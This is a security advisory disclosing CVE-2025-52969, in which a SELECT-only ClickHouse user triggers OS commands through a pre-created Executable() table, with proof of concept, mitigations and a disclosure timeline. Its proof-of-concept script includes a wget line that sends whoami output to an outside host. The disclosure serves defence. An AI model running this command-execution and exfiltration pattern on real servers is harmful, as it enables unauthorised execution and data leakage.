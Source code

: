 ## ClickHouse Executable Table Abuse by Low Privilege User

#### CVE ID: [CVE-2025-52969](https://nvd.nist.gov/vuln/detail/CVE-2025-52969)
#### Date: 2025-06-19  
#### Author: Seth Kraft  
#### Vendor Homepage: https://clickhouse.com/  
#### Vendor Changelog: https://github.com/ClickHouse/ClickHouse/blob/master/CHANGELOG.md  
#### Software Link: https://github.com/ClickHouse/ClickHouse  
#### Version: 25.7.1.557 (official build)  
#### Tested On: ClickHouse 25.7.1 (default configuration, Ubuntu 24.04)
#### CWE ID: [`CWE-420`](https://cwe.mitre.org/data/definitions/420.html)
#### CVSS Base Score: 2.8 (Low)
#### Vector String: `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:C/C:N/I:L/A:N` 
#### Type: Authenticated OS Command Execution via Executable Table
---

## Authorization
**For research and authorized testing only.** Please do not use against systems without permission.

The issue was reviewed by the ClickHouse team and explicitly approved public disclosure of this write-up.

---

## Summary

ClickHouse allows table definitions using the `Executable()` engine, which runs system-level commands on `SELECT`. 

A low-privileged user with only `SELECT` rights can trigger these commands if an `Executable()` table is pre-created by a higher-privileged user. 

This enables authenticated OS command execution resulting in a privilege escalation vector.

---
## Details

ClickHouse’s `Executable` table engine allows tables to be backed by the output of shell scripts. 

```sql
CREATE TABLE rce_test (
    output String
) ENGINE = Executable('/var/lib/clickhouse/user_scripts/leak.sh', 'TSV');
```

Each `SELECT` query against this table executes the referenced script on the server.

---

## Proof of Concept

#### 1. **Prepare Bash Script For Abuse**

As a privileged user, create a bash script in `/var/lib/clickhouse/user_scripts/` that will later be abused by a low privileged user.

##### Script Name: `leak.sh`
```bash
#!/bin/bash
wget -q http://example.com?data=$(whoami)
```
> Note: This script will leak the `whoami` result to an external host when executed.

---

#### 2. **Create Executable Table**

Create the following table in the database as a privileged user.  This table will later be abused by the low privileged user.

```sql
CREATE TABLE rce_test (
    output String
) ENGINE = Executable('/var/lib/clickhouse/user_scripts/leak.sh', 'TSV');
```

---

#### 3. **Create Low-Privileged User**

```sql
CREATE USER lowpriv IDENTIFIED BY 'p@ssw0rd';
GRANT SELECT ON *.* TO lowpriv;
```

#### 4. Verify Low Privilege User Permissions:

```sql
SHOW GRANTS FOR lowpriv;
```

Expected output:

```text
GRANT SELECT ON *.* TO lowpriv
```
![image](https://github.com/user-attachments/assets/a69ea771-8f46-4723-aad3-b0e9f5888ae7)

---

#### 4. **Trigger Execution as Low-Privileged User**

```bash
curl 'http://localhost:8123/?user=lowpriv&password=p%40ssw0rd&query=SELECT+*+FROM+rce_test;'
```
> Note: URL encoding was used due to a special character in the password field

The external host will receive a request — proving that `lowpriv` was able to trigger OS-level execution via `SELECT` query.
![Screenshot 2025-06-18 234909](https://github.com/user-attachments/assets/b65fc5a5-3bca-40a6-8a41-9c93d2458e8f)

---

### Impact

* Authenticated users with no command execution or write access can still leverage pre-created command definitions.
  
**Who Is Affected:** Environments that use `Executable()` tables and allow `SELECT` access broadly (e.g., BI/reporting users).

---

### Mitigation / Recommendation

* **Restrict access** to any `Executable()` tables via granular `GRANT` controls — avoid granting `SELECT` on these objects to untrusted users.
* **Avoid creating `Executable()` tables** that point to sensitive or impactful scripts unless absolutely necessary.
* **Monitor and audit** access to the `user_scripts` directory and `Executable()` table usage.
* Consider adding a **configuration flag or privilege check** in ClickHouse to restrict execution of `Executable()` tables to specific roles.

Until stricter controls are implemented upstream, the burden of protection falls on administrative hygiene and access control discipline.

---

## Disclosure Timeline

* **2025-06-19:** Researcher reported to ClickHouse via Github Security Report
* **2025-06-19:** ClickHouse dismissed the issue as intended behavior and confirmed that public disclosure was permitted
* **2025-06-19:** Researcher responded with technical rebuttal, but vendor reiterated dismissal
* **2025-06-19:** Researcher initiated public disclosure and requested CVE assignment from MITRE
* **2025-06-23:** MITRE assigned [CVE-2025-52969](https://nvd.nist.gov/vuln/detail/CVE-2025-52969) with disputed tag
* **2025-06-23:** Researcher notified Clickhouse of `CVE-2025-52969` assignment
* **2025-06-23:** ClickHouse clarified that a feature flag ticket was created to address this risk and improve application security
